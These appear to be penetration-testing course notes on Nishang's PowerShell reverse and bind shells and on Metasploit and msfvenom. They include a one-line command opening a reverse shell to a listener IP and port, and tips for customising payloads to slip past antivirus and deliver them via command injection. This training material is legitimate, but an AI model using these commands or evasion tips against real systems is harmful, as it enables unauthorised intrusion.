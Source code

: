 ### Nishang PowerShell Script

- **Function**: `Invoke-PowerShellTcp`
- **Features**:
    - Supports reverse (`Reverse`) or bind (`Bind`) shells.
    - Parameters: `IPAddress`, `Port`.
    - Example:
        
        ```powershell
        Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
        
        ```
        
    - Initializes TCP client/listener, sends user/computer info, and maintains interactive shell.
- **Error Handling**: Uses try-catch to manage execution errors.

## Notes for CAT5 Security Assessment

- **Objective**: Craft and deliver payloads to establish shells.
- **Challenges**:
    - Tailor payloads to target OS and interpreter.
    - Bypass AV detection (e.g., customize PowerShell scripts).
    - Deliver payloads via vulnerabilities (e.g., command injection).
- **Tips**:
    - Understand payload components to modify for evasion.
    - Use tools like Nishang for pre-built scripts but customize to avoid detection.
    - Test payloads in a lab to ensure compatibility and stealth.

# Payloads and Metasploit Notes

## Introduction

These notes, based on the "Payloads & MSF" document, cover the use of Metasploit Framework (MSF) for automating payload delivery and exploitation, relevant to CAT5 Security’s Inlanefreight engagement preparation. The focus is on leveraging MSF’s pre-built modules and crafting payloads with `msfvenom`.

## Key Concepts

### Metasploit Framework (MSF)

- **Definition**: An automated attack framework by Rapid7 for exploiting vulnerabilities and delivering payloads.
- **Editions**:
    - **Community Edition**: Used in labs (e.g., Pwnbox).
    - **Metasploit Pro**: Paid version for professional penetration testing, including social engineering.
- **Components**:
    - **MSFconsole**: Command-line interface for module interaction.
    - **Msfvenom**: Tool for generating custom payloads.
- **Capabilities**: Exploitation, scanning, enumeration, and payload delivery.
- **Caution**: Understand module effects to avoid unintended damage during live tests.
